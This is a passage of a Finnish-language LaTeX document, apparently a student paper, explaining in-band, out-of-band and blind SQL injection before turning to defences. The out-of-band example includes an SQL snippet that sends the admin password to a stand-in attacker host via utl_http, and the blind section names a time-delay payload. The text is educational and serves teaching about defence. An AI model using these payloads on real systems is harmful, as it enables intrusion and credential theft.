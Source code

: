 \documentclass[finnish]{tktltiki2}
\theoremstyle{definition}
\theoremstyle{remark}
\begin{document}
	\begin{description}
		\item[Inband injektio] \hfill \\
		Kun SQL-injektion tuloste saadaan samaa reittiä kun se on syötetty, on kyseessä inband injektio. Esimerkiksi jos sovelluksessa on mahdollista hakea lista tuotteista jotka ovat maasta jonka käyttäjä antaa kyselyssä.
		
		\item[Out-of-band injektio] \hfill \\
		Kun SQL-Injektion tuloste saadaan eri reittiä kun se on syötetty, on kyseesä out-of-band injektio. Web-sovellus saattaa esimerkiksi tallettaa tietokantaansa millä selaimilla sitä on käytetty. Selaintiedot haetaan HTTP pyynnön "User-Agent" kentästä. Hyökkääjä voi asettaa SQL-injektion User-Agent kenttäänsä. Todennäköisesti hyökkääjä ei näe kyselyn tulosta kyselyn palauttamalla sivulla. Hyökkääjän voi ohjata tulokset itselleen esimerkiksi suorituttamalla injektiossa haun:
		
		\begin{lstlisting}[language=sql]
		utl_http('http://www.hyokkaajansivu.fi/injections/' || 
		SELECT password
		FROM User 
		WHERE username = 'admin'
		)
		\end{lstlisting}
		Injektion onnistuessa hyökkääjän palvelimen logeissa näkyy esimerkiksi:
		
		\begin{lstlisting}
		GET "/injections/admininpassword", 200
		\end{lstlisting}
		
		Tällöin hyökkääjä saa selville käyttäjän admin salasanan.
		
		\item[Sokea injektio] \hfill \\
		Sokea injektio:
		Hyökkääjä ei saa minkäänlaista palautetta sovellukselta. Hyökkääjä voi kuitenkin kokeilla muokata sovelluksen tietoja ja tarkastella vaikuttaako se sovellukseen. Hyökkääjä voi käyttää apunaan sitä kuinka nopeasti sivu latautuu. Lisäämällä injektoituun sql-käskyyn komennon "waitfor delay 0:0:5", tietokanta odottaa 5 sekuntia ennen kuin se palauttaa tuloksen. Tästä voidaan päätellä injektion onnistuneen. \cite{regexp}
		
		
	\end{description}
	
	
	
	\section {SQL-Injektiolta suojautuminen}
	SQL-Injektiolta suojautumiseen on kehitetty useita keinoja. Keinot voidaan jakaa kolmeen päätyyppiin: Hyvät ohjelmointikäytänteet, SQL-injektion havaitseminen ja SQL-injektion ajonaikainen ehkäisy\cite{detection}.
	
\end{document}
